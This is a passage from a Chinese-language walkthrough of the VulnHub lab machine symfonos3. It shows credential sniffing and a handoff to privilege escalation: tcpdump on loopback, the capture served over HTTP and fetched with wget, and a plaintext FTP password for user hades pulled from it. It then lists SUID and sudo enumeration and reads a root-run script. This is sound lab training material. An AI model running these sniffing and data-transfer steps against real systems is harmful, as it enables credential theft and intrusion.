 ```bash
cd /tmp
tcpdump -D
tcpdump -w lo.pcap -i lo
```

运行命令后静静等待一段时间,再将抓好的包传给分析数据的机器

```bash
cd /tmp
python -m SimpleHTTPServer
```

```bash
wget 192.168.141.150:8000/lo.pcap
```

- 注1 : 这段过程要重复 ctrl+c 断 nc 连接,重连数次,要有耐心
- 注2 : 第一次 tcpdump 后再次执行报无权限,我直接重装了靶机,直接 tcpdump lo 口

这次分析看下
```
tcp.dstport == 21
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos3/27.png)

发现 hades 的密码 PTpZTfU4vxgzvRBE

---

# 后期-垂直提权

登录,尝试提权
```bash
sudo -l
find / -perm -u=s 2>/dev/null
```

和 cerberus 一样啥都没有,突然想到之前 pspy 抓的进程中 ftp 脚本是以 uid0 定时运行的
```bash
cd /opt/ftpclient/
ls
cat ftpclient.py
```
